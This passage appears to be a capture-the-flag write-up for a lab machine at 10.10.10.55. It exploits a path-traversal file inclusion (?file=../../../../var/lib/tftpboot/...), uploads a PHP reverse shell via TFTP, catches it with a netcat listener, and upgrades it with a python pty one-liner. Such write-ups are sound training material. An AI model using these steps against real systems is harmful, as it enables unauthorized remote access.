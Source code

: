 ##Research:

```yaml
The default configuration file for tftpd-hpa is /etc/default/tftpd-hpa. The default root directory where files will be stored is /var/lib/tftpboot.Nov 19, 2015
```
Yes we can! -- go to URL http://10.10.10.55/?file=../../../../var/lib/tftpboot/test.txt

and View source URL - view-source:http://10.10.10.55/?file=../../../../var/lib/tftpboot/test.txt
```yaml
this is a test
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title></titl
...
```

#Foothold with PHP reverse shell#

Locate a good PHP reverse shell - https://github.com/pentestmonkey/php-reverse-shell

save the reverse shell code as 55_rev.php and change the IP and Port to the ones it use

Start netcat locally to listen one another shell *nc -nlvp 4321*

then transfer via tftp the reverse shell php file to the target server
```yaml
┌──(root💀kali)-[/home/kali/http/shell]
└─# tftp 10.10.10.55
tftp> put 55_rev.php
Sent 5678 bytes in 0.9 seconds
tftp> 
```

Now connect to that file in the web browser and watch to get a reverse shell in the netcat session
```yaml
view-source:http://10.10.10.55/?file=../../../../var/lib/tftpboot/55_rev.php



OTHER NC WINDOW
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4321      
listening on [any] 4321 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.55] 49422
Linux included 4.15.0-88-generic #88-Ubuntu SMP Tue Feb 11 20:11:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:02:14 up  1:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

We have a good foothold now lets improve our shell
```yaml
python3 -c "import pty; pty.spawn('/bin/bash')"
```
